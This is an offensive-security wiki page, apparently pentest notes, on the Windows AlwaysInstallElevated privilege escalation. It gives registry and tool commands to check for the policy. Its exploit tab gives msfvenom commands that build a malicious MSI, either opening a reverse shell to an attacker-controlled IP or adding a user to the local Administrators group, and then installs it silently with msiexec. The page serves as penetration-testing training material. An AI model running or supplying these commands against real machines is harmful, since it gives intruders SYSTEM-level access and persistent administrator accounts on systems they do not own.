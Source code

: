 ```yaml
---
description: MITRE ATT&CK™  System Binary Proxy Execution - Msiexec - Technique T1218.007
---
```



# AlwaysInstallElevated 

## Theory

The **AlwaysInstallElevated** policy feature offers ALL users on a Windows operating systemis the ability to install an MSI package file with elevated (system) privileges.

## Practice

{% tabs %}
{% tab title="Enumeration" %}
Manual verification of the activation of this parameter is very simple and can be done with two commands. If it is enabled, it will create the value `AlwaysIntstallElevated` and set it to `0x1` (enabled) on the following two registry keys.
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Alternatively, using [PowerUp](https://github.com/PowerShellMafia/PowerSploit) from Powersploit we can enumerate the AlwaysInstallElevated policy.
```
. .\PowerUp.ps1
Invoke-AllChecks
```

Alternatively, using the `systeminfo` module of [WinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```powershell
winPEASx64.exe systeminfo
```
{% endtab %}

{% tab title="Exploit" %}
We just have to generate a malicious MSI file and install it with `msiexec.exe`  

Generate a malicious MSI
```bash
# Reverse Shell
v4resk㉿kali$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<ATTACKING_PORT> -f msi > package.msi

# Add user to Administrators
v4resk㉿kali$ msfvenom -p windows/exec CMD='net localgroup administrators <YOUR_USER> /add' -f msi > package.msi
```

Then, after downloading it to the target, install the MSI file using msiexec
```powershell
msiexec.exe /quiet /qn /i package.msi
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://juggernaut-sec.com/alwaysinstallelevated/" %}
